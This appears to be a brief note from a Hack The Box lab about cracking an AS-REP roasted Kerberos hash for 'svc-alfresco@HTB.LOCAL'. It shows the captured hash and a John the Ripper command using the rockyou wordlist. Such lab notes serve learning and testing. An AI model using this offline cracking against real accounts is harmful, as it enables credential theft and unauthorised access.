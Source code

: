 # John



TGT Hash

```bash
cat hash.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:552c1fa3f1a4e31ce2a6cfb7

john hash --fork=4 -w=/home/user/rockyou.txt
```


